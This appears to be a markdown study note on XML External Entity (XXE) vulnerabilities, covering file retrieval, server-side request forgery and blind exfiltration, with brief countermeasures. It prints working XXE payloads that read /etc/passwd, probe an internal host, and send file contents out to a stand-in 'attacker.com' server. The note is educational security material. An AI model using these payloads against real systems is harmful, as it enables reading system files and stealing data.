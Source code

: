 # XML eXternal Entities Vulnerability

XXE is a web security vulnerability that allows an attacker to interfere with an application's processing of XML data. (Can be used to to disclose various configuration file information, which the attackers then use to exploit the system further)

### What are XML External Entities
- External entity profiles are defined by outside sources such as a file on a local computer or a web URL. Such entities are used to ensure that the XML processor behaves consistently even when unexpected characters are parsed.

## XXE Attack 
- XXE vulnerabilities as uploading an XML file that includes an external entity.
```xml
<!DOCTYPE foo [<!ELEMENT foo ANY ><!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<foo>&xxe;</foo
```


## Types of XXE Attacks: 

- XXE for File Retrieval
```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<product>&xxe;</product>
<adress>&xxe;</adress>
```
	- Defining a new Entity called ```xxe```. This entity is made to execute a system call.
- XXE for Server-Side Request Forgery 
	- ```xml 
	<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://internals.target.com"> ]>```
	- System call to an HTTP endpoint of an internal webserver of which we should not see the contents from outside.
- Data out-of-band exfiltration (Blind XXE)
- ```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://Attacker.com"> ]>```
- Make a callback to our server.
```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % evil "<!ENTITY &#x25; exfiltrate SYSTEM 'http://attacker.com/?x=%file;'>">
%evil;
%exfiltrate;
```



***


## Countermeasures:

- Use simple data formats. (JSON as example)
- Use updated XML processes and libraries.
- Disable Document Type Definition and XXE in all XML Parsers.
- Usage of Whitelisting for Server-Side Input Validation.

***

## Takeaways: 

- It'simportant to insert your XXE entity into every single XML element. Any of them can be vulnerable as the developer has to filter ALL the fields indivually.
- Trying to upload a file that will test for XXE on every entry point where an XML
is processed
- Look into for SVG/DOC/XLSX & SOAP requests.

